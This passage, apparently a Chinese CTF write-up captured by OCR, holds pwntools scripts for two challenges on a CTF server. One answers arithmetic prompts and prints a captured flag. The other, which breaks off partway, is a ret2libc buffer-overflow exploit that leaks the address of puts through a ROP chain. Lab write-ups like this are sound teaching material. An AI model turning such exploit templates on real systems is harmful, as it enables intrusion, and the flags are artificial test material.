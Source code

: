 ```python
        prev2 = prev3
        prev3 = current
    
    return prev3

# 服务器信息
host = 'nc1.ctfplus.cn'
port = 11125
p = remote(host, port)
for _ in range(100):
    #print(p.recvline())
    data = p.recv().decode()
    print(data)
    number = ''.join(filter(str.isdigit, data))
    n = int(number)
    answer = climb_stairs_string(n)
    p.sendline(answer)
    print(p.recv())
```

得flag：SYC{a01bdac5-b891-4170-be1d-5b8cfa1e94d9}

## su~~~~

- ```python
  from pwn import *
  
  context.log_level="debug"
  
  libc = ELF('/home/feeling/pwn_file/py_payload/pwn/su_____/libc.so.6')
  
  elf = ELF('/home/feeling/pwn_file/py_payload/pwn/su_____/csu')
  
  #io = process('/home/feeling/pwn_file/py_payload/pwn/su_____/csu')
  
  io = remote('nc1.ctfplus.cn', 15739)
  
  puts_plt = p64(elf.plt['puts'])
  
  puts_got = p64(elf.got['puts'])
  
  start_addr = p64(elf.symbols['_start'])
  
  main = p64(0x40080C)
  
  pop_rdi_ret_addr = p64(0x400903)
  
  ret_addr = p64(0x40091C)
  
  #第一次攻击
  
  payload = b'a' * 136 + pop_rdi_ret_addr + puts_got + puts_plt + main
  
  io.sendline(b'1')
  
  io.send(payload)
  
  puts_addr = u64(io.recvuntil(b'\x7f')[-6:].ljust(8, b'\x00'))
  